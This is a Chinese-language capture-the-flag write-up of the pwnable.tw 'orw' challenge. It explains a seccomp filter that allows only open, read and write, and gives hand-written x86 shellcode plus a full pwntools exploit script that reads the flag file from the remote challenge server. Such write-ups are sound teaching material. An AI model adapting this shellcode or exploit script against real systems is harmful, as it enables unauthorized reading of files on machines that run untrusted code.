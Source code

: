 ```yaml
---
title: Pwnable.tw-orw
date: 2019-4-17 00:18:51
tags: [CTF, PWN]
categories: pwn练习
---
```

## 0x01 IDA分析
拿到程序不多bb，首先DIE看一波文件类型，发现是gcc编译的32位的文件，没加壳。直接拖进IDA，发现前面有个seccomp函数，并不知道做了什么操作，先不管，继续往下看，发现有个直接往bss上写shellcode，然后执行shellcode的操作。  

## 0x02 SECCOMP  
EXP写完后跑了一下发下并没有弹shell，奇怪，进去跟了一下，发现int 80调用execve执行/bin/sh后一条指令报错，怀疑是shellcode的原因，更换了几个shellcode发现仍然不行，这时猜测是SECCOMP的原因，查了一下发现这是个类似黑白名单的东西，把一些危险函数过滤掉，在pwn题中此工具做沙箱保护很常见，通常禁用一部分syscall，比如execve等，这样就没法直接弹shell了。    

## 0x03 How to reverse  
在这个成熟的保护机制下衍生了很多逆向工具，这边使用的是[Seccomp-tools](https://github.com/david942j/seccomp-tools)，看下效果。  
![image](./seccomp-tools.png)  

可以看到程序只允许执行open、read、write、exit等函数，直接syscall或者execve是不被允许的，所以此题只能在open、read、write这三个函数的基础上去思考如何利用。  

## 0x04 Shellcode  
虽然不能直接写execve弹shell，但是换个思路利用open打开文件句柄，read在打开的文件描述符上进行读取，之后用write输出到标准输出仍然可以达到一样的效果。  
这边根据[Linux下的系统调用编号](https://syscalls.kernelgrok.com/)进行编写shellcode。  
shellcode如下：
```
shellcode="""
mov eax,5
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80

mov eax,3
mov ecx,ebx
mov ebx,3
mov edx,0x40
int 0x80

mov eax,4
mov ebx,1
mov edx,0x40
int 0x80
```

open那里把路径压栈后把esp值赋给ebx，open函数打开一个文件句柄，存储在eax中，read函数从eax中存储的句柄进行读取。  

## 0x05 EXP  
这边贴下完整的EXP：
```
from pwn import *
context(log_level='debug',arch='i386',os='linux')
p=remote('chall.pwnable.tw',10001)
p.recvuntil(':')
shellcode="""
mov eax,5;
push 0x00006761;
push 0x6c662f77;
push 0x726f2f65;
push 0x6d6f682f;
mov ebx,esp;
xor ecx,ecx;
xor edx,edx;
int 0x80;

mov eax,3;
mov ecx,ebx;
mov ebx,eax;
mov edx,0x40;
int 0x80;

mov eax,4;
mov ebx,1;
mov edx,0x40;
int 0x80;
"""
p.sendline(asm(shellcode))
p.interactive()                    
```

看到有dalao直接用pwntools的shellcraft模块做的，羡慕一波  
![image](./shellcraft.png)  


## 0x06 GetFlag  
不过最终还是拿到了Flag，这道题主要就是一个SECCOMP需要注意下，还有就是如果是手写shellcode，需要注意syscall的调用号。  
![image](./getshell.png)  

